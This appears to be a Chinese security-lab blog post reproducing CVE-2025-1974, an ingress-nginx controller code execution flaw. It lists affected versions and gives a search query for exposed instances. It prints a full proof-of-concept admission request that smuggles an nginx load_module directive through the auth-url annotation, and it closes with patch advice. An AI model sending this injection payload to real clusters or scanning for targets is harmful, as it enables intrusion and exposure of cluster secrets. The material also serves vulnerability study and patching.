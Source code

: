 #  【成功复现】Ingress NGINX Controller远程代码执行漏洞(CVE-2025-1974)   
原创 弥天安全实验室  弥天安全实验室   2025-04-16 14:04  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Kubernetes ingress-nginx是云原生计算基金会（Cloud Native Computing Foundation）开源的Kubernetes 的入口控制器，使用NGINX作为反向代理和负载均衡器。Kubernetes ingress-nginx存在安全漏洞，该漏洞源于在某些条件下，未认证的攻击者可通过访问pod网络在ingress-nginx控制器环境中执行任意代码，可能导致Secrets泄露。0x02影响版本  
  
1、 ingress-nginx <= 1.12.0  
   
  
2、 ingress-nginx <= 1.11.4  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hBqQxkGqKDWSjfcRbLcKlys4LSM9AnjSu1JibFd62RIvBIrD5gibD94nLRI8xhrxde8UMia4kZRqf7ZQ/640?wx_fmt=png&from=appmsg "")  
0x03漏洞复现  
  
1.访问漏洞环境（  
ssl:"ingress-nginx" port:8443）  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hBqQxkGqKDWSjfcRbLcKlys0qnxgIL1tupBtSy2SkYJGicIIdJc5choqKQIERrdvOVle8QVqjthnqQ/640?wx_fmt=png&from=appmsg "")  
2.对漏洞进行复现 POC 漏洞复现POST / HTTP/1.1Host: 127.0.0.1:8443Content-Type: application/jsonContent-Length: 1599{  "kind": "AdmissionReview",  "apiVersion": "admission.k8s.io/v1",  "request": {    "uid": "d48aa397-c414-4fb2-a2b0-b28187daf8a6",    "kind": {      "group": "networking.k8s.io",      "version": "v1",      "kind": "Ingress"    },    "resource": {      "group": "networking.k8s.io",      "version": "v1",      "resource": "ingresses"    },    "requestKind": {      "group": "networking.k8s.io",      "version": "v1",      "kind": "Ingress"    },    "requestResource": {      "group": "networking.k8s.io",      "version": "v1",      "resource": "ingresses"    },    "name": "test-ee05c512-4ea7-418b-b4aa-9fc5a10874ee",    "namespace": "default",    "operation": "CREATE",    "userInfo": {    },    "object": {      "kind": "Ingress",      "apiVersion": "networking.k8s.io/v1",      "metadata": {        "name": "test-ee05c512-4ea7-418b-b4aa-9fc5a10874ee",        "namespace": "default",        "creationTimestamp": null,        "annotations": {"nginx.ingress.kubernetes.io/auth-url": "http://example.com#;load_module test;\n"        }      },      "spec": {        "ingressClassName": "nginx",        "rules": [          {            "host": "ee05c512-4ea7-418b-b4aa-9fc5a10874ee",            "http": {              "paths": [              ]            }          }        ]      },      "status": {        "loadBalancer": {}      }    },    "oldObject": null,    "dryRun": true,    "options": {      "kind": "CreateOptions",      "apiVersion": "meta.k8s.io/v1"    }  }}证明漏洞存在3.Yakit插件测试0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://github.com/kubernetes/ingress-nginx/releases/tag/controller-v1.12.1详细了解推荐阅读下文https://mp.weixin.qq.com/s/JjdtzRVin9zedz8bdHh9Rg弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
